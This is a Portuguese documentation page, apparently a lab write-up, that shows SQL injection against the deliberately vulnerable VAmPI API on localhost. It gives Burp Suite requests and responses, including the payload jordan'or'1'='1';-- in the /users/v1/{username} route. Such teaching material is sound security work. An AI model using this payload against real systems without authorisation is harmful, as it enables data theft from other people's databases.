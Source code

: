 ```yaml
---
sidebar_position: 2
---
```


# Exploração

Existem alguns métodos usados para identificar uma falha de SQL Injection, seja por meio de uma revisão do código fonte (em casos de testes white box), por meio da injeção maliciosa de string em inputs de dados de uma API, ferramentas de scan de vulnerabilidades etc.

## Vulnerabilidade na rota `/users/v1/{username}`
Inicialmente, foi usado o PostMan para enviar uma requisição do tipo `GET` com o username **jordan** como parâmetro e, posteriormente, analisar com o Burp Suite:

```js title="GET /users/v1/{username}"
GET /users/v1/jordan HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: a6523c6b-4739-4b55-b9ed-9347a58845b8
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
```

A resposta recebida foi:

```js title="Response"
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 56
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Fri, 30 Sep 2022 17:26:17 GMT

{
    "username": "jordan", 
    "email": "jjga.snf19@uea.edu.br"
}
```
Ao ter ciência do response legítimo enviado pela API para o usuário **jordan** na respectiva rota, é possível testar a sua fragilidade para o SQL Injection manipulando a requisição com um parâmetro malicioo.

No Burp Suite, enviaremos novamente a requisição alterando o parâmetro da requisição para `jordan'or'1'='1';--`

```js title="GET /users/v1/jordan'or'1'='1';--"
GET /users/v1/jordan'or'1'='1';-- HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: a6523c6b-4739-4b55-b9ed-9347a58845b8
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
```
Então, obtivemos a seguinte resposta do VAmPI:
```js title="SQL Injection Response"
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 48
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Fri, 30 Sep 2022 18:33:14 GMT

{
    "username": "name1",
    "email": "mail1@mail.com"
}
```
Ao compararmos o body de ambas as responses, podemos notar que o endpoint usado para retornar as informações de um usuário é suscetível ao SQL Injection.

#### Mais referências disponíveis na [OWASP](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa8-injection.md).